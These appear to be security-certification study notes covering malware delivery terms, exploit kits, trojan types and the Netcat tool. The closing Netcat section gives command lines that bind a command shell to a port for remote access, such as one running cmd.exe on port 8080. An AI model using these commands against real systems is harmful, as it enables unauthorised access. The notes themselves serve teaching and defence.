 ### Definitions

- **Malvertising** - embedding malware into ad networks to throw malware across many legitimate sites
- **Overt Channels** - legitimate communication channels used by programs
- **Covert Channels** - used to transport data in unintended ways
- **Wrappers** - programs that allow you to bind an executable (Trojan) to an innocent file (e.g. EliteWrap)
- **Crypters** - use a combination of encryption, obfuscation and code manipulation to render malware undetectable to security programs
- **Packers** - use compression to pack the executable which helps evage signature based detection

### Exploit Kits

- help deliver exploits and payloads
- Infinity
- Bleeding Life
- Crimepack
- Blackhole Exploit Kit

## Trojans

- Software that appears to perform a desirable function but instead steals information or harms the system (data)
- To hackers, it is a method to gain and maintain access to a system
- Trojans are means of delivery whereas a backdoor provides the open access


### Types

- **Defacement trojan**
- **Proxy server trojan** - allows attacker to use the target system as a proxy
- **Botnet trojan** - Chewbacca, Skynet
- **Remote access trojans** - RAT, MoSucker, Optix Pro, Blackhole
- **E-banking trojans** - Zeus, Spyeye
- **Command Shell Trojan** - Provides a backdoor to connect through command-line access (Netcat)
- **Covert Channel Tunneling Trojan** (CCTT) - a remote access trojan; creates data transfer channels in previously authorized data streams

### Netcat

- "Swiss army knife" of tcp/ip hacking
- Provides all sorts of control over a remote shell on a target
- Can connect (inbound or outbound) over TCP or UDP, from any port
- Offers DNS forwarding, port mapping and forwarding and proxying
- Works with STDIN and STDOUT only
- Basic syntax: `nc [options] [target ip] [port]`
- Command-line access to target machine via `nc -e [ip address] [port]`
- On target machine `nc -l -p 5555` opens a listening port on 5555; connect from attackers machine via `nc [ip address] -p 5555`
- `nc -L 8080 -t -e cmd.exe` - open command shell on port 8080 (Windows only)
